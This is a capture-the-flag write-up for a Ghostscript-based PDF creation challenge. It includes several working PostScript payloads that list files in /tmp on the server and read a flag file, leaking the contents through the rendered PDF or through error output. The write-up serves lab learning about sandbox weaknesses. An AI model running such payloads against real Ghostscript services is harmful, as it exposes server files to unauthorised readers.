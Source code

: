 # Day 18 - Ghost in the shell

- Category: Misc
- Difficulty: Easy
- Format: Blackbox

## Description

Santa noticed that there was no online PDF creation service. As he's a bit ‘old school’ he decided to create a PDF creation service based on Ghostscript. It's simple, you send him a Ghostscript script and he converts your work into a PDF!

How it works is simple:

```bash
$ cat hello.gs
%!PS
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
(Hello, world merry Christmas) show
showpage

$ cat hello.gs | socat - TCP:dyn-01.xmas.root-me.org:PORT
```

Decode the base64 in PDF file and enjoy your document!

Your goal is to get the flag in ``/tmp/flag-<RANDOM>.txt`

## Writeup

**TLDR: Ghostscript, feature allow to list and read files in /tmp**

There are several possible approaches to solving the challenge. The basic idea is to send a Ghostscript script to the server in order to abuse certain mechanisms of the tool, which has particular permissions in /tmp. That's where the flag fell.

However, we don't know the file name, so we'll have to find a way of retrieving the file names from /tmp.

### Leak filenames in /tmp

It is possible to write a Ghostscript script that : 
- List the /tmp and display the output in the returned PDF file

or

- List the /tmp and trigger an error to get the stacktrace output in the TCP tunnel

1. List /tmp in PDF :

```bash
%!PS
% Configure directory to list
/target_directory (/tmp/*) def

% Page setup
/lineheight 12 def
/xpos 50 def
/ypos 800 def
/Courier findfont 10 scalefont setfont

% Move to new line
/newline {
    /ypos ypos lineheight sub def
    ypos 0 lt {
        showpage
        /ypos 800 def
    } if
    xpos ypos moveto
} def

% List files and print them
target_directory {
    /curFileName exch def
    xpos ypos moveto
    curFileName show
    newline
} 4096 string filenameforall

showpage
```

Once the script sent and the base64 decoded we get the filenames in /tmp :

![ListTmpPDF](images/list_tmp_pdf.png)

The other way is to abuse the console output to leak the data here :

```bash
%!PS

(/tmp/*) { = } 1024 string filenameforall
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
(Hello, world merry Christmas) show
showpage
```

![ListTmpError](images/list_tmp_error.png)

### Read files in /tmp

Now we now the flag is in `/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt` we can abus Ghostscript mechanism to read it.

As previously we can read and write it in PDF, or to print it in console output.

- Write to PDF

```bash
%!PS

% Set font and position
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto

% Open the specific file
(/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt) (r) file
% Read a string from it
1000 string readstring
% Write that string in the page
pop show

showpage
```

In the PDF : 

![FlagPDF](images/flag_pdf.png)

- Leak through error messages

```bash
%!PS

(/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt) (r) file 1024 string readstring pop =
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
(Hello, world merry Christmas) show
showpage
```

Output : 

![FlagError](images/flag_error.png)

### Bonus

Nikost find a smart way to do a forEach loop in /tmp and print the flag. So it's working one shot : 

```bash
%!PS
% Set font and position
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
% For each filename like /tmp/flag*
(/tmp/flag*) {
    % Open the file
    (r) file
    % Read a string from it
    1000 string readstring
    % Write that string in the page
    pop show
} 1000 string filenameforall
showpage
```